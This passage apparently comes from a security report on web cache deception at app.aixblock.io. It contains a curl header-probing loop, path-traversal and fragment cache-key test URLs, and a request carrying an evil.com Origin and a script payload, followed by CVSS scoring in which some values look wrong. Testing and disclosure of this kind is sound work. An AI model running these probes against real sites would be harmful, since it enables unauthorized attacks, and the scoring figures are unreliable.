 ```bash
            
            # Get headers
            headers=$(curl -I -s "${test_url}")
            
            # Check for interesting responses
            if echo "${headers}" | grep -q "200 OK"; then
                echo "✓ 200 OK - Potential cache deception"
                echo "${headers}" | grep -E "(cf-cache-status|cache-control|etag)"
            elif echo "${headers}" | grep -q "30[12]"; then
                echo "✓ Redirect - Potential cache deception"
                echo "${headers}" | grep -E "(location|cf-cache-status)"
            fi
            
            echo "---"
        done
    done
done
```

## **🔍 Advanced Cache Deception Techniques**

### **1. Azure Fragment Attacks**
```bash
# Test Azure-style fragment attacks
curl -I "https://app.aixblock.io/poisoned#/../legitEndpoint"
curl -I "https://app.aixblock.io/admin#/../../sensitive"
```

### **2. Cache Key Manipulation**
```bash
# Test cache key manipulation
curl -I "https://app.aixblock.io/myAccount$%2e%2e%2fstatic/file.js"
curl -I "https://app.aixblock.io/myAccount%23/resources/style.css"
```

### **3. Cross-Origin Cache Poisoning**
```bash
# Test cross-origin cache poisoning
curl -H "Origin: https://evil.com" -I "https://app.aixblock.io/<script>alert(1)</script>$.css"
```

## **📊 Risk Assessment**

### **Potential Impact**
1. **Data Exposure**: Sensitive user data cached and accessible
2. **Session Hijacking**: User sessions cached with static URLs
3. **Cross-Site Attacks**: Malicious content cached and served
4. **Information Disclosure**: Internal endpoints cached publicly

### **CVSS v3.1 Scoring**
- **Attack Vector (AV)**: Network (0.85)
- **Attack Complexity (AC)**: Low (0.77)
- **Privileges Required (PR)**: None (0.85)
- **User Interaction (UI)**: Required (0.62)
- **Scope (S)**: Changed (0.0)
- **Confidentiality (C)**: High (0.56)
- **Integrity (I)**: High (0.56)
- **Availability (A)**: None (0.0)
